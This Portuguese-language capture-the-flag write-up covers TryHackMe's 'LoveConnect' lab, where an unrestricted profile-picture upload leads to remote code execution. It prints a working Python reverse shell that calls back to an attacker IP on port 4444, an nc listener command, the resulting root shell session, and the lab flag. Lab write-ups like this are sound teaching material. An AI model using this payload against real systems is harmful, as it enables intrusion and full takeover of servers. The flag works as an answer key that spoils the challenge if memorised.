




# TryHackMe — Speed Chatting
## Level 5 — LoveConnect

**Categoria:** Web / Unrestricted File Upload / Remote Code Execution  
**Dificuldade:** Médio

---

### 💌 Concierge Briefing

> My Dearest Hacker,
> Days before Valentine's Day, TryHeartMe rushed out a new messaging platform called "Speed Chatter", promising instant connections and private conversations. But in the race to beat the holiday deadline, security took a back seat. Rumours are circulating that "Speed Chatter" was pushed to production without proper testing.
> As a security researcher, it's your task to break into "Speed Chatter", uncover flaws, and expose TryHeartMe's negligence before the damage becomes irreversible.
>
> You can find the web application here: `http://10.66.153.77:5000`

---

## 🎯 Objetivo

O briefing aponta diretamente para o problema: uma plataforma lançada às pressas, sem testes de segurança adequados. O Speed Chatter possui uma funcionalidade de upload de foto de perfil — e a pressa no desenvolvimento sugere que a validação de arquivos pode ter sido ignorada. O objetivo é encontrar e explorar a falha de upload para obter execução remota de código e capturar a flag.

---

## 🔍 Passo 1 — Código-fonte: Endpoint de Upload Sem Restrições

Acessando `view-source:http://10.66.153.77:5000`, o formulário de upload de foto de perfil foi identificado:



```html
<div class='upload-section'>
    <h4>Update Photo</h4>
    <form action='/upload_profile_pic' method='post'
          enctype='multipart/form-data' id='uploadForm'>
        <label for='fileInput' class='file-label'>
            Choose File
        </label>
        <input type='file' id='fileInput' name='profile_pic' required>
        <div class='file-name' id='fileName'>No file selected</div>
        <button type='submit'>Upload</button>
    </form>
</div>
```

O formulário enviava arquivos para `/upload_profile_pic` sem nenhuma restrição de tipo de arquivo visível no lado do cliente — e, como o desenvolvimento foi apressado, a hipótese era que também não havia validação server-side. Qualquer arquivo poderia ser enviado como "foto de perfil".

---

## 🔍 Passo 2 — Preparando o Payload: Python Reverse Shell

Com o endpoint identificado, foi criado um script Python de reverse shell (`script.py`) para ser enviado como "foto de perfil":

```python
import os,socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.133.90",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

O listener foi iniciado na máquina do atacante:

```bash
nc -lnvp 4444
```

---

## 🔍 Passo 3 — Upload da Shell: Arquivo Python como "Foto de Perfil"

O arquivo `script.py` foi selecionado no campo de upload e enviado para o servidor:



A resposta do servidor foi imediata:

```
Profile picture updated successfully!
```

O servidor **não validou o tipo do arquivo** — aceitou o script Python sem questionar. Além disso, ao processar o "upload de imagem", a aplicação executou o arquivo, estabelecendo a conexão com o listener.

---

## 🚩 Passo 4 — Shell como Root: Capturando a Flag

A conexão chegou no listener:



```
listening on [any] 4444 ...
connect to [192.168.133.90] from (UNKNOWN) [10.66.153.77] 55668
bash: cannot set terminal process group (415): Inappropriate ioctl for device
bash: no job control in this shell

root@tryhackme-2204:/opt/Speed_Chat# whoami
root

root@tryhackme-2204:/opt/Speed_Chat# ls
app.py
flag.txt
uploads

root@tryhackme-2204:/opt/Speed_Chat# cat flag.txt
THM{R3v3rs3_Sh3ll_L0v3_C0nn3ct10ns}
```

Shell obtida diretamente como **root** — sem qualquer etapa de escalonamento de privilégios necessária. O servidor estava executando a aplicação com o usuário mais privilegiado do sistema.



---

## 🚩 Flag

```
THM{R3v3rs3_Sh3ll_L0v3_C0nn3ct10ns}
```

---

## 📝 Resumo da cadeia de investigação

1. **View-source** → endpoint `/upload_profile_pic` identificado no HTML sem validação de tipo de arquivo no cliente
2. **Script criado** → reverse shell Python de uma linha salva como `script.py`
3. **Listener iniciado** → `nc -lnvp 4444` aguardando conexão
4. **Upload do `script.py`** como "foto de perfil" → servidor aceita sem validação → executa o arquivo durante o processamento
5. **Shell recebida** como `root` em `/opt/Speed_Chat`
6. **`cat flag.txt`** → `THM{R3v3rs3_Sh3ll_L0v3_C0nn3ct10ns}`

---